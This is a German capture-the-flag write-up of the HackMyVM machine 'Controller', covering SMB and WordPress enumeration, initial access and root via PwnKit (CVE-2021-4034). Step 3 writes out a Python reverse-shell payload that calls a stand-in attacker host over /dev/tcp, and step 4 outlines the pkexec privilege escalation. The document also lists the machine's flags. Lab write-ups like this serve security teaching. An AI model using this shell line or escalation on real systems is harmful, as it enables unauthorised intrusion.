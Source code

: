 # Controller - HackMyVM (Hard)

![Controller Icon](Controller.png)

## Übersicht

*   **VM:** Controller
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Controller)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 14. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Controller_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Controller" von HackMyVM (Schwierigkeitsgrad: Hard) wurde durch eine Reihe von Schritten kompromittiert. Die Enumeration offenbarte ein komplexes System, das als Samba Active Directory Domain Controller mit einem WordPress-Webserver konfiguriert war. Der initiale Zugriff erfolgte durch das Hochladen einer Python-Reverse-Shell-Payload auf einen anonym zugänglichen SMB-Share (`tester`), dessen Inhalt vermutlich durch einen unbekannten Mechanismus ausgeführt wurde. Dies führte zu einer Shell als Benutzer `tester`. Die Privilegienerweiterung zu Root wurde durch die Ausnutzung der bekannten PwnKit-Schwachstelle (CVE-2021-4034) in `pkexec` erreicht.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `netdiscover` (impliziert)
*   `arp-scan`
*   `nmap`
*   `vi`
*   `gobuster`
*   `enum4linux`
*   `smbclient`
*   `curl`
*   `wpscan`
*   `nikto`
*   `python` (für Payload-Erstellung und HTTP-Server)
*   `nc` (netcat)
*   `ssh`
*   `find`
*   PwnKit Exploit (CVE-2021-4034)
*   Standard Linux-Befehle (`ls`, `cat`, `mkdir`, `echo`, `chmod`, `id`, `cd`, `wget`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Controller" erfolgte in diesen Schritten:

1.  **Reconnaissance:**
    *   Ziel-IP (`192.168.2.149`, Hostname `controller.hmv`) via `netdiscover`/`arp-scan` identifiziert.
    *   `nmap` zeigte eine komplexe Konfiguration mit SSH (22), HTTP/HTTPS (80/443 - Apache mit WordPress 5.7.2), Kerberos (88), RPC (135), SMB (139/445 - Samba 4.6.2), LDAP (389/3268), LDAPS (636/3269) und Kpasswd (464). Anonyme LDAP-Bindungen waren möglich. SMB Message Signing war aktiv.
    *   WordPress-URLs leakten eine interne IP (`192.168.0.25`).

2.  **Web Enumeration (WordPress & Samba):**
    *   `gobuster` fand Standard-WordPress-Pfade.
    *   `enum4linux` identifizierte die Domäne `CONTROL` und einen benutzerdefinierten SMB-Share `tester`, der anonym zugänglich war.
    *   `wpscan` und `nikto` lieferten Standardinformationen, aber keine direkten Schwachstellen. Nikto hob ein browsbares `/wp-content/uploads/`-Verzeichnis hervor.

3.  **Initial Access (tester via SMB Payload):**
    *   Eine Python-Reverse-Shell-Payload wurde in einer Datei `test.txt` erstellt:
        `import commands\ncommands.getoutput('/bin/bash -c "/bin/bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"')`
    *   Mittels `smbclient` wurde diese Datei anonym auf den `tester`-Share hochgeladen.
    *   Ein Netcat-Listener wurde auf Port 5555 gestartet.
    *   Die Ausführung der Payload (Mechanismus unklar, vermutlich ein Cronjob oder Dienst, der Dateien aus dem Share verarbeitet) führte zu einer Reverse Shell als Benutzer `tester`.
    *   Die User-Flag wurde aus `/home/webservices/user.txt` gelesen (Zugriff als `tester`).
    *   SSH-Zugriff als `tester` wurde durch Hinzufügen des eigenen öffentlichen Schlüssels zu `~/.ssh/authorized_keys` eingerichtet.

4.  **Privilege Escalation (tester -> root via PwnKit):**
    *   Das System wurde als Ubuntu 20.04.2 LTS identifiziert.
    *   Die Suche nach SUID-Binaries (`find / -perm -u=s ...`) zeigte `/usr/bin/pkexec`.
    *   Ein bekannter PwnKit-Exploit (CVE-2021-4034) wurde vom Angreifer-System heruntergeladen, per Python-HTTP-Server bereitgestellt und auf das Zielsystem als `tester` transferiert.
    *   Der Exploit wurde ausführbar gemacht (`chmod +x PwnKit`) und ausgeführt (`./PwnKit`).
    *   Dies führte direkt zu einer Root-Shell.
    *   Die Root-Flag wurde aus `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Anonymer SMB-Schreibzugriff:** Erlaubte das Hochladen einer Payload-Datei auf einen Share.
*   **Unsichere Ausführung von Share-Inhalten:** Ein (nicht näher spezifizierter) Mechanismus führte die hochgeladene Payload aus.
*   **Kernel/System-Schwachstelle (CVE-2021-4034 - PwnKit):** Ausnutzung einer lokalen Privilegieneskalations-Schwachstelle in `pkexec`.
*   **Informationslecks:** Preisgabe einer internen IP-Adresse durch WordPress.
*   **LDAP Anonymous Bind:** Hätte für weitere Enumeration genutzt werden können.
*   **Komplexe Dienstkonfiguration:** Die Kombination aus DC-Rollen und Webserver erhöhte die Angriffsfläche.

## Flags

*   **User Flag (`/home/webservices/user.txt`):** `K1ng0F3V4S10n`
*   **Root Flag (`/root/root.txt`):** `DpKg1sB3tt3rTh4nPyth0n?`

## Tags

`HackMyVM`, `Controller`, `Hard`, `SMB`, `Anonymous Write`, `Python Shell`, `PwnKit`, `CVE-2021-4034`, `pkexec`, `Privilege Escalation`, `WordPress`, `Samba AD DC`, `Linux`
